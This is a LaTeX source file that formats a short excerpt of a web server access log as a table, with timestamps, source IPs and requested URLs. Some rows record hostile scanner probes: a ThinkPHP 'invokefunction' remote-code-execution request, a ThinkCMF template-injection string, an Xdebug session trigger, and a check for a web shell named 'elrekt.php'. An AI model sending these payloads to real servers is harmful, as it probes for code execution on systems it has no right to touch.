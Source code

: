 \documentclass[12pt]{article}
\begin{document}
\begin{longtable}{|l|l|l|l|}
182 & 2020-04-30 08:31:04 & 5.101.0.209     & GET /?XDEBUG\_SESSION\_START=phpstorm                                                                                               \\ \hline
183 & 2020-04-30 08:31:04 & 5.101.0.209     & GET /?a=fetch\&content=\textless{}php\textgreater{}die(@md5(HelloThinkCMF))\textless{}/php\textgreater{}                            \\ \hline
184 & 2020-04-30 08:34:06 & 5.101.0.209     & GET /index.php?s=/Index/	hinkapp/invokefunction\&function=call\_user\_func\_array\&vars{[}0{]}=md5\&vars{[}1{]}{[}{]}=HelloThinkPHP \\ \hline
185 & 2020-04-30 08:50:18 & 83.97.20.31     & GET / HTTP/1.0                                                                                                                      \\ \hline
186 & 2020-04-30 09:48:07 & 154.8.204.200   & GET /TP/public/index.php                                                                                                            \\ \hline
187 & 2020-04-30 09:48:08 & 154.8.204.200   & GET /TP/index.php                                                                                                                   \\ \hline
188 & 2020-04-30 09:48:08 & 154.8.204.200   & GET /thinkphp/html/public/index.php                                                                                                 \\ \hline
189 & 2020-04-30 09:48:09 & 154.8.204.200   & GET /html/public/index.php                                                                                                          \\ \hline
190 & 2020-04-30 09:48:10 & 154.8.204.200   & GET /public/index.php                                                                                                               \\ \hline
191 & 2020-04-30 09:48:11 & 154.8.204.200   & GET /TP/html/public/index.php                                                                                                       \\ \hline
192 & 2020-04-30 09:48:11 & 154.8.204.200   & GET /elrekt.php                                                                                                                     \\ \hline
193 & 2020-04-30 09:48:12 & 154.8.204.200   & GET /index.php                                                                                                                      \\ \hline

\end{longtable}
\end{document}
